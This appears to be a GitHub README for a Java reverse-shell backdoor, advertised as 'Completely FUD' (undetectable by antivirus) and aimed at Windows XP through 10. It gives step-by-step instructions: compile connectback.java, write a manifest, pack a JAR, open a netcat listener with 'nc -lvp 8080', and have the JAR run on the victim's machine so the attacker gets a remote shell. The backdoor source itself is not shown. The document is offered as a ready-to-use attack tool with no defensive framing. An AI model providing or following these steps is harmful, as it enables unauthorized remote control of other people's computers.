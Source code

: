 This is a Java based Completely FUD backdoor reverse shell, for Windows XP,Vista,7,8.x,10 , coded entirely in java.

This project was developed using openjdk version "11.0.3", but the Libraries used in this project dates back from JDK 1.0 release, thus, this will work on any version of Java. 
NB: the victim should have either the same version of Java or a few notches under, installed on the system, to avoid unwanted JNI errors.
This ideally should not be an issue as most users update their JRE runtime , either manually or is set to Auto update (which is most common).

To compile the file , simply run javac connectback.java.
This will create the .class file.
Create a manifest file, as per the JDK version on your device.
Filename : connectback.mf
Format:
Manifest-Version: 11.0.3
Main-Class: connectback

Now This can be packed into a .JAR executable file using :jar cmf connectback.mf connectback.jar connectback.class connectback.java

Start a netcat listner using nc -lvp 8080 ( I've used port 8080 as my listening port)

Port the .JAR file to the windows machine and execute it either by using java -jar connectback.jar or simply double clicking on the file , and you should instantly get your reverse shell on the attacker machine.

Cheers

#Captain_Nemo

connectback

https://www.youtube.com/watch?v=BaPRKLP9B_4
